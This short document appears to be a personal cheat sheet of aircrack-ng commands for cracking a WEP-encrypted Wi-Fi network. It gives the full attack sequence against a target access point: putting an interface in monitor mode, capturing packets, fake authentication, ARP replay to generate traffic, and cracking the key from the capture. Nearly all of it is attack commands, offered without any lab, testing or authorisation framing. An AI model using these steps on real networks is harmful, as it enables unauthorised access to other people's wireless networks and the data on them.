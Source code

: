 ### no replay-defense -  crypto is weak - can be cracked fast when at least 20 K packets captured
```
airmon-ng check
airmon-ng check kill
airmon-ng start <interface>
airodump-ng <interface> --bssid <bssid> --channel <channel> --write <file>
```

### -1 for fake authentication
```
aireplay-ng -1 0 -a <bssid> <interface>
```

### replay arp packages to speed up traffic
```
aireplay-ng <interface> --arpreplay -b <bssid>
```

### crack password
```
aircrack-ng <file>.cap
```

